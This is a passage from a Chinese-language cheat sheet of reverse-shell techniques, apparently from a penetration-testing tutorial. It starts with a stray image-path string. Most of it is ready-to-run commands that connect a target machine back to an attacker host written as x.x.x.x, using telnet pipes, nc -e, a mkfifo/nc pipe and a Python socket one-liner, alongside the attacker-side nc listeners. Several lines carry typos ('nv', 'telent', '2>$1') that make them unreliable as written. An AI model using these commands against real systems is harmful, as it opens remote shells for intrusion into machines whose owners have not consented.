 ```bash
nv -lv port2
```

目标主机执行：

```bash
telent x.x.x.x port1 | /bin/bash | telnet x.x.x.x port2
```

监听2个端口分别用来输入和输出，其中x.x.x.x均为攻击者ip。

第二种：

攻击机监听：

```bash
nc -lv port
```

目标主机执行：

```bash
rm -f /tmp/a;mknod /tmp/a p;telnet x.x.x.x port 0</tmp/a | /bin/bash 1>tmp/a
```

其中x.x.x.x为攻击机ip。

#### 3. nc(netcat)反弹

攻击机监听：

```bash
nc -lv port
```

目标执行：

```bash
nc -e /bin/bash x.x.x.x port
```

如果目标上没有`-e`参数可以使用以下命令：

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>$1 | nc x.x.x.x port >/tmp/f
```

`mkfifo`的作用是创建FIFO特殊文件，也称为命名管道。FIFO文件在磁盘上没有数据块，仅用来标识内核中的一条通道，各进程可以打开FIFO文件进行读写操作，本质上就是在读写内核通道，这样就可以实现进程间通信。

此外，也可以使用telnet的监听2个端口的方式：

```bash
nc x.x.x.x port1 | /bin/bash | nc x.x.x.x port2
```

#### 4. 常见脚本反弹

下述脚本均需要现在攻击机上开启监听：`nc -lv port`，将脚本中ip替换为对应的攻击机IP，port替换为实际使用的端口。

##### 1. Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
